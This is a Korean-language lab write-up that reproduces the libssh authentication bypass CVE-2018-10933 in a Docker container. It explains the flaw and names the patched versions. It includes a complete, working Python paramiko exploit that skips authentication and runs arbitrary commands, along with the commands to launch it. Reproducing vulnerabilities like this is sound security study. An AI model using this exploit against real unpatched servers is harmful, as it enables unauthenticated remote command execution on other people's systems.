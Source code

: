 # libssh Authentication Bypass Vulnerability(CVE-2018-10933)


**Contributors**
-   [황현택(@hhtboy)](https://github.com/hhtboy)

<br/>

### 요약

- 해당 취약점은 libssh에 대한 취약점입니다.
- libssh는 클라이언트와 서버간 SSHv2 프로토콜을 상속받은 멀티플랫폼 C언어 라이브러리입니다. libssh를 사용해서 ssh연결을 해 클라이언트와 서버가 보다 안전한 통신을 할 수 있습니다.
- 이 취약점은 libssh의 서버쪽 state machine에서 발견되었습니다. 공격자는 인증되기도 전에 `MSG_USERAUTH_SUCCESS` 메세지를 보내는 것으로 인증을 우회할 수 있습니다.


### 참고 문서
- https://www.libssh.org/security/advisories/CVE-2018-10933.txt
- https://www.seebug.org/vuldb/ssvid-97614

<br/>

### 환경 구성 및 실행

#### 1. 환경 구성

아래 명령어로 docker 컨테이너 환경을 실행합니다.

```
docker compose up -d
```
<br>

아래 명령어로 컨테이너가 실행중인지 확인합니다.
```
docker ps
```
<br>

![](image/docker_ps.png)
<br>
위와 같이 보인다면 테스트 환경이 정상적으로 구축된것입니다.

#### 2. 정상적인 libssh 시도

컨테이너에는 리눅스 서버가 돌아가고 있습니다.
서버에 접속하기 위해 ssh 연결을 시도합니다.
<br>
계정 : myuser / 비밀번호 : mypassword
<br>
아래 명령어로 ssh 접속을 할 수 있습니다.
(포트번호는 docker-compose파일에 따라 변경합니다.)
```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@localhost
```
<br><br>
비밀번호를 입력해서 정상적인 방법으로 접근이 되는 것을 확인합니다.
![](image/legal_connection.png)

만약 `no matching key exchange method found` 관련 문제가 발생한다면, ~/.ssh/config 파일을 아래와 같이 수정합니다.
```
Host 127.0.0.1
HostKeyAlgorithms=+ssh-rsa
```
![](image/ssh_config.png) 



#### 3. libssh Authentication Bypass 취약점을 이용한 비정상 접근

아래와 같은 `exploit.py`파일을 생성합니다.
```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        # 입력한 호스트 IP, Port 번호로 소켓 연결
        sock.connect((hostname, int(port)))

        # 서버로 보낼 메세지 생성
        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        # exploit의 핵심 부분. 메세지에 MSG_USERAUTH_SUCCESS를 추가해서 전송
        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        # 입력한 command 실행
        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # 서버에서 실행된 결과를 stdout으로 받아오기
        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        # 결과를 터미널에 출력
        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()

    # SSH 연결 실패 처리
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```
<br><br>

아래 명령어로 별다른 인증 없이 서버로 명령을 보내고 결과를 받아볼 수 있습니다.
<br/>

`python3 exploit.py 127.0.0.1 [docker에서 설정한 포트] "[실행되길 원하는 명령어]"`
<br/>

```
python3 exploit.py 127.0.0.1 2222 "id"
```

<br/>

### 결과

명령어로 id를 주니 명령어가 실행된 결과가 마지막에 나타납니다.
![](image/result1.png)
<br><br>
명령어로 홈 디렉토리에 새로운 디렉토리를 생성해보았습니다.
![](image/result2.png)
<br><br>
정상적인 방법으로 서버에 접속해서 생성된 디렉토리를 확인할 수 있습니다.
![](image/result3.png)

<br/>

### 정리
정상적인 ssh 연결은 아래와 같은 순서로 이루어집니다.<br>
- 클라이언트가 서버에게 SSH_MSG_USERAUTH_REQUEST를 요청
- 서버는 클라이언트가 보낸 사용자가 유효한지 확인하고, 유효하지 않으면 SSH_MSG_USERAUTH_FAILURE를 보내고, 인증을 받기 위해 SSH_MSG_USERAUTH_REQUEST를 전송함.
- 클라이언트는 인증 방법 중 하나를 선택한 후, 인증 방법과 필요한 값들을 함께 SSH_MSG_USERAUTH_REQUEST를 전송.
- 서버는 클라이언트가 보낸 요청이 유효한지 확인하고, 인증에 성공하면 SSH_MSG_USERAUTH_SUCCESS 메세지를 송신하고 인증을 종료함.

문제는 클라이언트가 SSH_MSG_USERAUTH_REQUEST를 요청한 후 대기중인 상태에서, 서버가 SSH_MSG_USERAUTH_SUCCESS 메세지를 수신하면 정상적으로 인증된 것으로 판단하고 연결이 됩니다.

#### 해결방법

- 취약점이 패치된 libssh 0.8.4와 0.7.6 버전으로 업데이트하여 해결할 수 있습니다.
